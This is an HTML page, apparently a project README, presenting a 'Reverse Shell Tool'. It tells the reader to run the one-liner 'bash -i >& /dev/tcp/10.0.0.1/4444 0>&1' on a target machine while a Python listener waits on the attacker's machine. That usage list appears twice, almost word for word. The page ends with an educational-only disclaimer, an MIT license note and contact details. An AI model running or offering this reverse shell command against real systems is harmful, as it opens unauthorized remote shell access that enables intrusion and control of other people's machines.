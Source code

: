  </head>
 <body>
 <h1>Reverse Shell Tool</h1>
 <p>This is a simple reverse shell tool implemented in Bash and Python. It allows you to create a connection to a remote machine and start a Bash shell.</p>
 <h2>Bash Reverse Shell</h2>
 <p>The Bash reverse shell creates a connection to a remote machine and starts a Bash shell. The IP address and port number are specified in the code as hard-coded values.</p>
 <p>Here is an example of how to use the Bash reverse shell:</p>
 <ol>
 <li>Start the Python listener on the attacker's machine:</li>
 <code>python listener.py</code>
 <li>Run the Bash reverse shell on the target machine, specifying the IP address and port number of the attacker's machine:</li>
 <code>bash -i >& /dev/tcp/10.0.0.1/4444 0>&1</code>
 </ol>
 <h2>Python Listener</h2>
 <p>The Python listener waits for incoming connections from the Bash reverse shell and starts an interactive session with the remote machine.</p>
 <p>Here is an example of how to use the Python listener:</p>
 <ol>
 <li>Run the Python listener on the attacker's machine:</li>
 <code>python listener.py</code>
 <li>Run the Bash reverse shell on the target machine, specifying the IP address and port number of the attacker's machine:</li>
 <code>bash -i >& /dev/tcp/10.0.0.1/4444 0>&1</code>
 </ol>
 <h2>Disclaimer</h2>
 <p>This tool is intended for educational purposes only. Using it for illegal or unethical activities is strictly prohibited. The author is not responsible for any damage or harm caused by the use of this tool.</p>
 <h2>License</h2>
 <p>This tool is released under the MIT License. Feel free to use and modify it as you see fit.</p>
 <h2>Contact</h2>
 <p>If you have any questions or comments, feel free to contact me at <a href="mailto:davycypher@gmail.com">davycypher@gmail.com</a>.</p>
 </body>
</html>
